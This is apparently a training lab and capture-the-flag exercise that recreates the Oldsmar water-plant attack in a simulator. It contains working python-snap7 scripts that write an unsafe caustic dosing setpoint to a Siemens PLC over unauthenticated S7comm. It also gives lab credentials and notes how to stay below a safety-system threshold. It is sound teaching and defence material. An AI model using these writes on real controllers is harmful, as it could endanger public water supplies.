

Exercise ICSPT-4.3: The Oldsmar Replay
Engagement Status
| Client | Masa Foods, Inc. (fictional) |
|---|---|
| Role | OT Security Engineer, Plant 2 |
| Phase | Discovery Enumeration Exploitation (authorized demo) Reporting |
What you know so far: Exercises 4.1 and 4.2 proved that you can read any datablock on the Plant 2 water PLC over S7comm. Exercise 4.3 is your first S7 write, and it is a deliberately dangerous one: you are going to reproduce the 2021 Oldsmar water-treatment incident inside a controlled simulator with Reyna Alvarado's explicit approval.
Environment Checklist
Confirm the Plant 2 stack before you start:
Kali
If any step fails, walk the Exercise 4.1 Environment Checklist first.
Authorized controlled demo only
Exercise 4.3 writes a deliberately unsafe setpoint to a PLC. Only run it against the OCR simulator container. The simulator has a process model and an independent safety PLC that trips the plant to alarm state so nothing real happens. Do not run any command in this exercise against any PLC that dosing real water.
Scenario
In February 2021 an attacker with remote access to the Oldsmar, Florida water treatment plant raised the sodium hydroxide dosing setpoint from 100 ppm to 11,100 ppm. The plant operator caught the change on the HMI in seconds and reverted it before any water left the facility. The incident became the textbook example of how a single unauthenticated write on an OT protocol can move a plant toward an unsafe state within a normal maintenance window.
Reyna Alvarado has signed off on a controlled demonstration during a Plant 2 maintenance window. Executive leadership needs to see, in concrete terms, that the Masa Plant 2 PLC has the same exposure the Oldsmar plant had. Nothing physical will actually dose, and no real water will leave Plant 2. The PLC is running under a simulator harness with a process model and an independent safety PLC that trips when the caustic dosing setpoint exceeds 120 ml/min for more than 3 seconds.
Why this matters
Executives read about Oldsmar in the Wall Street Journal and concluded that "ICS attacks are rare and sophisticated". Reyna wants to break that assumption on camera. Her pitch to the Plant 2 executive review is: the Oldsmar attack was one unauthenticated S7 write, it took ten seconds, and the defender's only safety net was a human operator watching the right screen at the right moment. Exercise 4.3 is the demo she needs. You write the unsafe setpoint, the independent safety PLC trips, and the incident marker in DB999 becomes permanent evidence on the container. Executives then see the two-minute video and approve the protection level 3 rollout that Reyna has been asking for since 2024.
You also need this exercise in your own history because in a real engagement you will be asked whether you can reproduce an incident without actually causing one. The answer depends on the harness you built around the PLC, not on your S7 knowledge. Exercise 4.3 is the template.
The Plant 2 simulator harness
The Plant 2 PLC runs under a simulator that enforces three things:
- A process model that tracks caustic dosing, pH response, and chlorine residual in real time
- An independent safety instrumented system (SIS) that trips the plant to
state=2when the caustic setpoint crosses 120 ml/min for more than 3 seconds - An incident log in DB999 that records the cause code and writes a permanent ASCII marker on the first trip
Your job is to write an unsafe caustic setpoint to DB1 offset 16 on the Plant 2 PLC, wait for the independent safety PLC to trip the plant to alarm state, and read the incident marker from DB999. The incident marker is the flag.
Values Reyna gave you to use:
| Parameter | Value |
|---|---|
| Caustic tag | DB1 offset 16 (uint16, ml/min) |
| Safe baseline | 45 ml/min |
| Safety trip threshold | 120 ml/min |
| SIS trip window | 3 seconds |
Reset the setpoint to 45 ml/min after you capture the flag so operations can close the window cleanly.
| Credentials in scope | Username | Password | Where it is used |
|---|---|---|---|
| Plant 2 HMI (reference) | plant_op |
masa_op_2025 |
Reference only, not used in this exercise |
The Plant 2 operator HMI
Plant 2 runs a live operator cockpit for the water treatment line. Open it in a browser at the address shown for ophmi-water in the Exercise Network panel (HTTP, port 80); from the in-lab Kali the name ophmi-water.masa.local also resolves. The cockpit shows the caustic and chlorine dosing rates, the process gauges, and the independent dosing safety system in real time, so you can watch the dose climb and the safety trip fire as you run each stage.

Flip the cockpit into its Engineering view and every element is labelled with the live PLC address behind it, so the caustic dosing pump reads DB1.16 straight off the HMI. The same register map you are about to write by hand sits one click away on the operator console.

Objectives
- Read the baseline caustic pump rate from DB1 offset 16
- Write a caustic setpoint of 200 ml/min (above the 120 ml/min SIS trip threshold)
- Wait at least 5 seconds for the SIS trip window to expire and populate the incident log
- Read the incident marker from DB999 offset 0
- Read the trip cause code from DB999 offset 32
- Restore the 45 ml/min safe baseline before you close the exercise
| Detail | Value |
|---|---|
| Difficulty | Intermediate |
| Estimated Time | 30 to 45 minutes |
| Prerequisites | Exercises 4.1 and 4.2 |
| Flag | Source | Found? |
|---|---|---|
OCR{...} |
Incident marker at DB999 offset 0, written by the SIS on the first caustic overlimit trip |
Background: The Real Oldsmar Attack
Publicly available details of the Oldsmar incident are narrow but consistent. An attacker reached a TeamViewer session on a plant workstation. From there the attacker used the HMI to change the sodium hydroxide setpoint. Oldsmar used a Windows HMI that spoke some OT protocol to the underlying controller; the exact protocol was never publicly disclosed but is widely believed to be S7comm or a vendor-specific overlay.
Three defenses existed at Oldsmar:
- The HMI logged the setpoint change visibly on the operator screen
- The operator happened to be watching the HMI at that moment
- Even if the setpoint had held, process dynamics would not have pushed sodium hydroxide to the finished water tank for several more hours
Of the three, only the first is under the plant's control through configuration. The second depends on human attention. The third depends on plant layout. Exercise 4.3 recreates the first two defenses on a compressed timescale and adds a fourth: the SIS trip.
The SIS trip window
A Safety Instrumented System (SIS) is a separate controller whose only job is to watch a small number of critical measurements and force the plant to a safe state if any of them cross a limit. SISes are usually physical (a Siemens Simatic F-CPU in a separate chassis), and the rule of thumb is that the SIS must be independent from the process PLC. The Plant 2 simulator models this with a deterministic trip rule: if the caustic setpoint or caustic actual rate exceeds CAUSTIC_MAX_SAFE_ML_MIN for more than SIS_TRIP_WINDOW_S seconds, the SIS forces plant_state to 2, sets alarm bit 0, and writes the incident marker into DB999.
SIS_TRIP_WINDOW_S is 3.0 seconds in this simulator. The window exists because a real SIS does not trip on every transient spike; it waits for a short debounce to avoid nuisance trips. You will need to sleep at least 5 to 6 seconds after your write to guarantee the trip has fully fired.
Tools You Will Need
| Tool | Purpose |
|---|---|
python-snap7 |
S7comm client |
struct |
Pack the uint16 setpoint value |
time.sleep |
Wait out the SIS trip window |
Walkthrough
Stage 1: Capture the Baseline
Kali
Stage 2: Write the Unsafe Setpoint
db_write is the mirror of db_read: it takes a DB number, a byte offset, and a packed byte payload. struct.pack(">H", 200) encodes 200 as a big-endian uint16 (two bytes), which is what the PLC expects at DB1 offset 16.
After the write, sleep 6 seconds. The SIS trip window is 3 seconds, so 6 gives the independent safety PLC enough time to detect the overlimit, fire the trip, and update DB999. Sleeping less than 3 seconds will leave DB999 empty because the trip has not fired yet.
After sleeping, verify the trip by reading plant_state at DB1 offset 24 (should be 2, meaning alarm) and alarm_word at DB1 offset 26 (bit 0 set means dosing overlimit).
Kali
python3 - <<'PYEOF'
import struct, time
from snap7.client import Client
c = Client()
c.connect("plc-water.masa.local", 0, 1, tcpport=102)
c.db_write(1, 16, struct.pack(">H", 200))
print("wrote 200 ml/min, sleeping 6 s for the SIS trip")
time.sleep(6)
plant_state = struct.unpack(">H", bytes(c.db_read(1, 24, 2)))[0]
alarm = struct.unpack(">H", bytes(c.db_read(1, 26, 2)))[0]
print(f"plant_state after trip: {plant_state}")
print(f"alarm_word after trip: 0x{alarm:04x}")
c.disconnect()
c.destroy()
PYEOF
Expected output after the trip
plant_state=2 is the simulator's alarm state, and alarm_word=0x0001 is the "dosing overlimit" bit.

Stage 3: Read the Incident Marker
DB999 has a two-part layout. The first 32 bytes (offset 0-31) hold an ASCII incident marker string, null-padded. Bytes 32-33 hold a uint16 cause code that identifies what tripped the SIS. Read 34 bytes in one call, then slice the buffer into the two parts:
raw[0:32]: the incident marker (strip nulls, decode as ASCII)raw[32:34]: the cause code (unpack as big-endian uint16 withstruct.unpack(">H", ...))
Kali
python3 - <<'PYEOF'
import struct
from snap7.client import Client
c = Client()
c.connect("plc-water.masa.local", 0, 1, tcpport=102)
raw = bytes(c.db_read(999, 0, 34))
marker = raw[0:32].rstrip(b"\x00").decode("ascii")
cause = struct.unpack(">H", raw[32:34])[0]
print(f"incident marker: {marker}")
print(f"cause code: {cause}")
c.disconnect()
c.destroy()
PYEOF
Cause code 1 = caustic overlimit, 2 = chlorine overlimit.
Stage 4: Restore and Close
Write the safe baseline (45 ml/min) back to DB1 offset 16. Even though the SIS trip state does not clear on restore (the container must be restarted for that), restoring the setpoint is a professional habit: you should never leave a PLC with an unsafe value, even inside a simulator.
Kali
The SIS trip state does not clear on restore; the simulator container has to be restarted for the plant to leave alarm state. That is intentional and matches how real SIS trips behave: a human has to acknowledge the alarm and the field conditions before the plant can run again.
Output Interpretation
- The baseline read should always return 45. Anything else means the container was not fresh or another student touched it
- A successful write returns with no exception.
python-snap7does not raise on a successful write; it raises only on transport or protocol errors plant_stateis at DB1 offset 24 and is 1 in normal running and 2 in alarm. After the trip it will stay 2 until the container is restarted- The incident marker is 32 bytes null-padded. Strip nulls before decoding
- If you read DB999 less than 3 seconds after your write, the marker will still be null bytes because the SIS trip window has not expired. Sleep at least 5 seconds
Analysis Questions
1. Why does the simulator wait 3 seconds before tripping instead of tripping on the first overlimit tick?
Reveal answer
Real SIS controllers always include a debounce window to avoid nuisance trips from transient measurement noise. A typical window is 1 to 5 seconds, chosen to be long enough to filter noise but short enough that a genuine fault is caught before damage. The 3-second window in this simulator is a conservative midpoint. Removing the window would make the SIS fire on every small measurement spike and shut the plant down multiple times per day, which operations would quickly route around.
2. The real Oldsmar operator reverted the setpoint in seconds. Would a fast revert have prevented the simulator SIS from tripping?
Reveal answer
Yes, if the revert happened within 3 seconds. The simulator watches the caustic actual rate, which lags the setpoint through the pump dynamics. A setpoint that spikes to 200 and back to 45 within 1 second would cause a brief overlimit on the actual rate but would drop below 120 before the 3-second window expires. The fast-revert behavior matches the Oldsmar real-world outcome where a quick human revert prevented the incident, and it is exactly why operator HMI attention is the textbook example of a procedural control: it only works if the operator is watching at the right moment.
3. If you wrote 119 ml/min (just below the trip threshold) and held it for 10 minutes, would the SIS trip?
Reveal answer
No. The SIS trip condition is a threshold comparison, not an integral. A sustained dose at 119 ml/min is inside the "safe" band the way the simulator defines safe. In real plants, this is a known limitation of threshold-based SIS logic: a skilled attacker can stay just below the threshold and cause cumulative damage the SIS cannot see. Defense requires adding an integral-of-exposure rule on top of the threshold, which is Exercise 4.4 territory.
4. Why does the incident marker in DB999 persist even after you restore the setpoint?
Reveal answer
Incident markers are forensic evidence. A PLC that clears them on resumption would lose the only in-band record that anything ever happened. Real Siemens F-CPUs behave the same way: the fault state latches until an authorized operator acknowledges it via a configured input, not automatically on setpoint recovery. The simulator's "restart the container to clear" pattern models the "human acknowledges before plant resumes" workflow.
Defensive Recommendations to Masa
| Finding | Risk | Mitigation |
|---|---|---|
| Plant 2 PLC accepts unauthenticated S7 writes from any host on the OT LAN | Critical | Enforce Siemens protection level 3 on all Plant 2 controllers before any non-maintenance work continues |
| The SIS trip window is a pure threshold, with no exposure integral | Medium | Extend the SIS rule to include an integral-of-exposure term so sustained sub-threshold dosing also trips the plant |
| DB999 incident marker is readable, but no alerting pipeline watches it | Medium | Add a poll-based Zeek or Snort rule that reads DB999 every minute and pages oncall if the marker contains any non-null bytes |
| Executive leadership does not know Plant 2 is at the same exposure Oldsmar had | High | Deliver the Exercise 4.3 video to executives and tie the protection level 3 rollout to the next maintenance window |
Key Takeaways
- A single unauthenticated S7 write can move a plant toward an unsafe state within a 3-second SIS trip window. Oldsmar was not sophisticated; it was cheap
- Restoring the setpoint after the incident marker is written is still the right professional habit, even though the SIS trip does not clear. Leaving the PLC with 200 ml/min on the caustic pump makes the container unsafe for anyone who touches it after you
- The independent SIS is the last line of defense. Everything else (HMI attention, operator training, procedural controls) fails in silence
- Exercise 4.3 is the template for every future "controlled demo" request. You run it against a simulator with a known trip rule. Never run it against a real PLC